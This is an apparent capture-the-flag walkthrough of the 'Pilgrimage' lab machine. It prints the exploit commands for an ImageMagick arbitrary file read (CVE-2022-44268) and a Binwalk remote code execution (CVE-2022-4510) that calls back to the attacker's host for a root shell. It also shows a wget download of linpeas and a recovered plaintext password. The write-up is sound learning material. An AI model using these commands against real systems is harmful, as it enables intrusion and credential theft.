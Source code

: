 # About
Pilgrimage is an easy-difficulty Linux machine featuring a web application with an exposed `Git` repository. Analysing the underlying filesystem and source code reveals the use of a vulnerable version of `ImageMagick`, which can be used to read arbitrary files on the target by embedding a malicious `tEXT` chunk into a PNG image. The vulnerability is leveraged to obtain a `SQLite` database file containing a plaintext password that can be used to SSH into the machine. Enumeration of the running processes reveals a `Bash` script executed by `root` that calls a vulnerable version of the `Binwalk` binary. By creating another malicious PNG, `CVE-2022-4510` is leveraged to obtain Remote Code Execution (RCE) as `root`. 

# Enumeration

```
nmap -A -T4 -p- 10.129.64.204
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20:be:60:d2:95:f6:28:c1:b7:e9:e8:17:06:f1:68:f3 (RSA)
|   256 0e:b6:a6:a8:c9:9b:41:73:74:6e:70:18:0d:5f:e0:af (ECDSA)
|_  256 d1:4e:29:3c:70:86:69:b4:d7:2c:c8:0b:48:6e:98:04 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-git: 
|   10.129.64.204:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
|_http-server-header: nginx/1.18.0
|_http-title: Pilgrimage - Shrink Your Images
```

Update Hosts File
```
10.129.64.204	pilgrimage.htb
```



# Web Enumeration

Since in our original enumeration scans we found a .git directory I am going to start with gitdumper.

Git-Dumper `git-dumper http://pilgrimage.htb/.git/ git_loot`

![](Images/Pasted%20image%2020250502140904.png)

Use extractor to get all of the commits `./extractor.sh git_loot git_extract`

![](Images/Pasted%20image%2020250502140939.png)

Some users found in the commit text
```
author emily <emily@pilgrimage.htb> 1686132708 +1000
committer root <root@pilgrimage.htb> 1686132708 +1000
```

There is a file called Magick within the root directory

![](Images/Pasted%20image%2020250502141855.png)

We can identify the version of ImageMagick `./magick --version`

![](Images/Pasted%20image%2020250502142431.png)


# Exploit


This version is vulnerable to CVE-2022-44268 Arbitrary File Read [POC](https://github.com/kljunowsky/CVE-2022-44268). Lets test the POC with a basic file to read being /etc/hosts

```
python3 exploit.py --image image.jpeg --file-to-read /etc/hosts --output poisoned.jpeg
```

![](Images/Pasted%20image%2020250502143113.png)

We can remotely read files from the target host now. We will have to find where the sensitive data is stored before moving forward. Taking a look back at the source. Within `login.php` we find the following source code

![](Images/Pasted%20image%2020250502143353.png)

So we know the path `/var/db/pilgrimage` now lets read that data using the POC. That threw an error.

![](Images/Pasted%20image%2020250502143659.png)

So instead we will download the file and see what we can do with it. If we take the hex from the file and convert it using [CyberChef](https://gchq.github.io/CyberChef/) we get the following decoded text. `emily:abigchonkyboi123`

![](Images/Pasted%20image%2020250502145003.png)

We can then use those credentials to login via SSH.

![](Images/Pasted%20image%2020250502145059.png)

![](Images/Pasted%20image%2020250502145121.png)

# Post-Exploitation

Copy Linpeas over and run
```
wget http://10.10.14.251:8888/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

We have what appears to be a custom tool being run by the root user. `malwarescan.sh`

![](Images/Pasted%20image%2020250502145933.png)

```
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
 filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
 binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
  if [[ "$binout" == *"$banned"* ]]; then
   /usr/bin/rm "$filename"
   break
  fi
 done
done
```

In this script, the directory `/var/www/pilgrimage.htb/shrunk/` is being monitored by `inotifywait` and passes files to binwalk. The binwalk version on this host is `Binwalk v2.3.2` lets lookup if there's anything on it.

We find [CVE-2022-4510](https://www.exploit-db.com/exploits/51249)which allows us to get RCE via this Binwalk version

```
python3 51249.py image.jpeg 10.10.14.251 4444

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################

You can now rename and share binwalk_exploit and start your local netcat listener.
```

Start our netcat listener and upload the file. Uploading it via the web directory did not work. So lets transfer it over and move it to the directory listed in the `malwarescan.sh` file.

![](Images/Pasted%20image%2020250502150907.png)

![](Images/Pasted%20image%2020250502150941.png)





